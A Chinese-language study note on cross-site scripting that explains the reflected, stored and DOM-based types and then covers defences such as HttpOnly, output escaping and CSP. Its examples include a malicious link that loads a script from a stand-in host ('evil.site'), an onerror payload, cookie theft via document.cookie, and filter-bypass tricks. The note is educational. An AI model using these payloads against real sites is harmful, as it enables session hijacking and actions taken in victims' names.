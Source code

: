 # 一、什么是XSS

XSS的英文全称是Cross-Site-Scripting    本来缩写是CSS，为了区别于层叠样式表缩写为XSS

**本质**：javascript代码注入

因为同源策略的限制，恶意网站的代码无法读取用户在其他网站的数据，于是就将代码**注入**到目标网站中。

**注入原理**：**服务器**将恶意代码用于**构造html**页面并直接返回

广义上所有js代码注入都算XSS，所以利用js模板引擎（Vue.js）的注入也算（类比SSTI）

# 二、XSS的分类

## 反射型XSS

```mermaid
sequenceDiagram
    攻击者->>受害者: 一、发送恶意链接  http://bank.com/?id=<script src="evil.site/evil.js">
    受害者->>服务器: 二、受害者点击访问bank.com
    服务器->>受害者: 三、网站接受恶意的参数用于构造html并返回
```

浏览器认为这段加载evil.js的js代码来自服务端。而同源策略是允许跨域加载js代码（加载完就当本页面代码执行了，因此不受同源策略限制）。因从攻击者的evil.js文件就被加载执行了。也可以直接内联执行

## 存储型XSS

攻击者通过发表博客或评论等方式向服务器数据库插入恶意代码，每次有受害者浏览，服务端就会返回带有恶意代码的html页面

## DOM型XSS

- **反射型XSS**：恶意代码由**服务器**返回并**在服务器返回的响应体中**执行。
- **DOM型XSS**：恶意代码由**前端JavaScript**写入并**在DOM解析过程中**执行。

DOM型是前端的锅，前端的JS代码拼接了恶意代码，反射型是服务器拼接的（区别看谁干了）

比如前端代码如下：

```javascript
// 从URL的hash中获取用户名，然后用innerHTML直接写入页面（**错误做法**）
var username = location.hash.substring(1); // 去掉'#'号
document.getElementById('welcome-message').innerHTML = "Hello, " + username;
```

构造恶意url：

`https://example.com/welcome#<img src='x' onerror='alert("XSS")'>`

# 如何攻击

最简单就是发送document.cookie获取cookie

也可以通过构造GET、POST请求来进行一些操作比如上传或者删除数据（请求被当作客户端的操作，攻击者不需要知道cookie，浏览器发送请求会自动带上cookie，类比CSRF）

复杂payload可以利用xss平台 （BeEF，蓝莲花等）

# 绕过技巧

常用靶场xss-labs，github地址：https://github.com/do0dl3/xss-labs

网上有很多搭建好的，比如：https://xssjs.com/yx/

总结如下：

- 双写，编码，拼接（所有注入类型都能用到）
- 使用javascript伪协议 
- 使用各种事件处理程序 如onclick等
- 尝试各种标签和属性

# 防御

## HttpOnly

这个属性在 `web复习.md`中介绍过。服务器Set-Cookie的时候写入这个属性，客户端就无法读取cookie了，cookie只能用于HTTP/HTTPS传输。

## 输入过滤

直接将黑名单中的代码过滤掉

缺点：

1. 富文本场景，比如技术论坛，就是需要打`<script>` 
2. 破坏展示。比如对引号转义，导致输出所有引号变成`\"`

早期火狐的**XSS-Filter**      谷歌**XSS-Auditor**都是对url的参数进行过滤（因此也只针对反射型）

## 输出转义

防御XSS攻击的标准方案，很多服务器模板引擎（jinjia2）都内置了很多过滤器

根据被输出到html页面中还是javascript代码中进行html转义或者javascript转义

html属性标签的时间处理程序中，先js转义，再html转义（客户端优先解析html）

**在DOM型XSS中**，注意是前端负责转义，当然更好的规范操作，避免直接使用innerHTML

## Content-Type问题

比如JSONP中，就是要设置content-type为javascript，而正常JSON数据如果content-type不对也会被当html或者js代码执行

## CSP

全称Content-Security-Policy  内容安全策略

服务端发送Content-Security-Policy消息头指明可以加载js代码的域

和CORS思想相同，由服务器告诉**浏览器**哪些域的JS代码是安全的。它实际上可以**看作对CORS的补充**

CORS告诉浏览器哪些域能访问服务器，CSP告诉浏览器哪些域的js代码可以安全加载

缺点：

1. 开启CSP就会完全禁用内联js代码，所有js代码都必须通过外部资源嵌入
2. 外部资源太复杂了，维护成本高
3. 已有的web应用改造成本高

## 总结

CSP是最符合安全思想的，但是成本高。早期使用XSS-Filter，XSS-Auditor等，现在输出转义是主流。